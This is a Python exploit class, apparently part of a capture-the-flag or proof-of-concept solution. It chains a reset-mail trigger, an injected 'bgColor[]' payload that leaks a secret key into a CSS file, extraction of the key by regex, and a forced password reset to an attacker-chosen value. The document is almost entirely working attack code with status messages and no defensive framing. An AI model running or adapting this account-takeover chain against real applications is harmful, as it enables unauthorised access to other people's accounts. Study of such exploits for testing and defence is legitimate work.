 ```py
class Exploit:
    def __init__(self, baseURL, newPassword, payload, timeout):
        self.baseURL = baseURL.rstrip("/")
        self.newPassword = newPassword
        self.payload = payload
        self.timeout = timeout

    def trigger_reset_mail(self):
        print(f"[+] Reset Mail Write Secret Key")
        response = requests.post(f"{self.baseURL}/reset_mail", timeout=self.timeout)
        if response.status_code == 200:
            print(f"[+] Trigger Successfully: ", response.text, "\n")
            return True
        else:
            print(f"[-] Trigger Failed: ", response.text)
            return False

    def leak_secret_key(self):
        print(f"[+] Leak Secret Key From Color")
        data = {
            "bgColor[]": self.payload, 
            "fontColor": "#000000"
        }
        response = requests.post(f"{self.baseURL}/color", data=data, timeout=self.timeout)
        if "ColorPicker Done" in response.text:
            print(f"[+] Trigger Shell Successfully")
            return True
        else:
            print(f"[-] Trigger Shell Failed")
            return False

    def fetch_image(self):
        print(f"[+] Get Secret Key")
        url = f"{self.baseURL}/image.css"
        response = requests.get(url=url, timeout=self.timeout)
        if response.status_code == 200:
            print(f"[+] Leak Secret Key Success: ", response.text, "\n")
            return response.text 
        else:
            print(f"[-] Leak Secret Key Failed: ", response.text, "\n")
            return None

    def pass_reset_key(self, text_css):
        secret = re.search(r'([0-9a-f]{32})', text_css)
        if secret:
            return secret.group(1)
        else:
            return None

    def pass_reset(self, secret_key):
        url = f"{self.baseURL}/pass_reset"
        data = {
            "password": self.newPassword,
            "key": secret_key
        }
        response = requests.post(url=url, data=data, timeout=self.timeout)
        if "Reset Done" in response.text:
            print(f"[+] Reset Password Success")
            return True
        else:
            print(f"[-] Reset Password Failed")
            return False

```